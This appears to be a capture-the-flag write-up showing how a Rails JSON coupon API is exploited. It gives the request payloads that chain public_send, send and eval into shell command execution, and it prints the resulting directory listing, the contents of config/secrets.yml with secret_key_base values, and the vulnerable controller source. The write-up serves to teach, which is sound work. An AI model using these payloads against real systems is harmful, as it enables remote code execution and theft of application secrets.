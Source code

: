 = README

Injection in a JSON API

    {"q":"find","p":1}
    {"response":{"id":1,"coupon":"PARTYHARD2015-jff7f73h3g3jd77fj","value":0.75}}

value: 0
    {"q":"where", "p": {"value": 0}}
    {"response":[{"id":2,"coupon":"PARTYHARD2015-h4k4d7dgeg3y6dh3h","value":0},{"id":4,"coupon":"PARTYHARD2015-ffll4kjjfj48jddjd","value":0},{"id":5,"coupon":"PARTYHARD2015-fkffkkmnnf44nrnr4","value":0},{"id":12,"coupon":"PARTYHARD2015-3993883jndndu3u38","value":0},{"id":15,"coupon":"PARTYHARD2015-mzmlala393jdndhj3","value":0}]}

WHERE key = value AND k2 = v2 AND k3 = v3...

    {"q":"where", "p": {"value": [1, 2, 3, 4, 5, 6, 7, 8, 9, 10]}}
    {"response":[{"id":8,"coupon":"PARTYHARD2015-ffll4kjjfj48jddjd","note":"woot","value":2},{"id":42,"coupon":"PARTYHARD2015-sksjj4849fmccmmce","note":"you are 1337! this is the last coupon in this track, now hack elsewhere :3","value":5}]}

    {"q":"send", "p": "test"}
    {"error":"method `send' is blacklisted!"}

    {"error":"can't use `find_by_sql' for a query! use `find' instead."}

    {"q":"public_send", "p": "code"}
    {"error":"undefined method `code' for Coupons:Class"}

    {"q":"public_send", "p": "public_methods"}
    {"response":["include_root_in_json","find","where","first","last","==","as_json","public_methods","send","public_send","respond_to?"]}

    as_json
    {"response":{"store":{"thread_key":"69882404401320-Coupons"},"generated_attribute_methods":{"_mutex":{}},"attribute_method_matchers_cache":{"backend":{},"default_proc":null},"records":[{"id":1,"coupon":"PARTYHARD2015-jff7f73h3g3jd77fj","value":0.75},{"id":2,"coupon":"PARTYHARD2015-h4k4d7dgeg3y6dh3h","value":0},{"id":4,"coupon":"PARTYHARD2015-ffll4kjjfj48jddjd","value":0},{"id":5,"coupon":"PARTYHARD2015-fkffkkmnnf44nrnr4","value":0},{"id":8,"coupon":"PARTYHARD2015-ffll4kjjfj48jddjd","note":"woot","value":2},{"id":12,"coupon":"PARTYHARD2015-3993883jndndu3u38","value":0},{"id":15,"coupon":"PARTYHARD2015-mzmlala393jdndhj3","value":0},{"id":42,"coupon":"PARTYHARD2015-sksjj4849fmccmmce","note":"you are 1337! this is the last coupon in this track, now hack elsewhere
    :3","value":5}]}}

getting deeper

    {"q":"public_send", "p": ["send", "methods"]}

and deeper

    {"q":"public_send", "p": ["send", "eval", "`pwd`"]}
    {"response":"/app\n"}

ls -l

    {"response":"total 60
    dr-x------ 8 u36903 dyno 4096 Dec 16 03:44 app
    dr-x------ 2 u36903 dyno 4096 Dec 16 03:44 bin
    dr-x------ 6 u36903 dyno 4096 Dec 16 03:44 config
    -r-------- 1 u36903 dyno  153 Dec 16 03:44 config.ru
    dr-x------ 2 u36903 dyno 4096 Dec 16 03:44 db
    -r-------- 1 u36903 dyno  981 Dec 16 03:44 Gemfile
    -r-------- 1 u36903 dyno 3790 Dec 16 03:44 Gemfile.lock
    dr-x------ 4 u36903 dyno 4096 Dec 16 03:44 lib
    drwx------ 2 u36903 dyno 4096 Dec 16 03:44 log
    dr-x------ 3 u36903 dyno 4096 Dec 16 03:44 public
    -r-------- 1 u36903 dyno  249 Dec 16 03:44 Rakefile
    -r-------- 1 u36903 dyno  478 Dec 16 03:44 README.rdoc
    dr-x------ 8 u36903 dyno 4096 Dec 16 03:44 test
    drwx------ 6 u36903 dyno 4096 Dec 16 03:44 tmp
    dr-x------ 6 u36903 dyno 4096 Dec  9 18:51 vendor
    "}

cat config/secrets.yml:

    {"response":"# Be sure to restart your server when you modify this file.\n\n#
    Your secret key is used for verifying the integrity of signed cookies.\n# If
    you change this key, all old signed cookies will become invalid!\n\n# Make
    sure the secret is at least 30 characters and all random,\n# no regular words
    or you'll be exposed to dictionary attacks.\n# You can use `rake secret` to
    generate a secure secret key.\n\n# Make sure the secrets in this file are kept
    private\n# if you're sharing your code publicly.\n\ndevelopment:\n
    secret_key_base:
    8968f25433f698766088b2cc1fb70902c5c599457b26eb4d06b9074819efea0d7ec036f488f2dc8086ab8ecc7e6ef748f0cb99f01286eced9ea0f2d21f7483af\n\ntest:\n
    secret_key_base:
    117e7eff8b4635dbb153396c1e58f69de3d60ce6cb4df591e8d415246ebe76ade172be580fcfc688036e3ae76c5af6ec8ac745583e4926f65bbe4242207dd4d6\n\n#
    Do not keep production secrets in the repository,\n# instead read values from
    the environment.\nproduction:\n  secret_key_base: \u003c%=
    ENV[\"SECRET_KEY_BASE\"] %\u003e\n"}

grep for flags

    {"q":"public_send", "p": ["send", "eval", "`grep -rl PARTYHARD2015-`"]}

    {"response":"config/data/coupons.yml\napp/controllers/challenge_controller.rb\n"}

    {"response":"class ChallengeController \u003c ApplicationController\n\n
    def index\n  end\n\n  def query\n    if !params.has_key?(:p) ||
    !params.has_key?(:q)\n      render_error(\"p and q are required\")\n
    elsif params[:q] == \"debug\"\n      render_response(\"ok, debug mode is
    enabled.\")\n    elsif params[:q] == \"send\"\n      render_error(\"method
    `send' is blacklisted!\")\n    elsif params[:q].start_with?(\"'\")\n
    render_error(\"ERROR 1337 (42000): You have an error in your SQL syntax;
    check the\" +\n        \"manual that corresponds to your MySQL server
    version for the right syntax to use near \" +\n        \"'#{params[:q]}'
    at line 3\")\n    elsif
    !Coupons.public_methods.include?(params[:q].to_sym)\n
    render_error(\"can't use `#{params[:q]}' for a query! use `find'
    instead.\")\n    else\n      args = Array.wrap(params[:p])\n      while
    args.any?{ |arg| arg.is_a?(String) \u0026\u0026 arg.include?('chmod') }\n
    args = args.map{ |arg| arg.is_a?(String) ? arg.gsub(/chmod/i, 'nope') :
    arg }\n      end\n      puts \"SENDING: #{params[:q]} #{args}\"\n      r =
    Coupons.public_send(params[:q], *args)\n      render_response(r)\n
    end\n  rescue =\u003e e\n    render_error(e.message)\n  end\n\n  def
    partyhardhereisyour20dollarsdiscount\n
    render_response(\"PARTYHARD2015-njhejdi838jehejdk\")\n  end\n\n
    private\n\n  def render_error(message)\n    render json: {error: message},
    status: :unprocessable_entity\n  end\n\n  def render_response(message)\n
    render json: {response: message}, status: :ok\n  end\nend\n"}

poke directly for the lulz
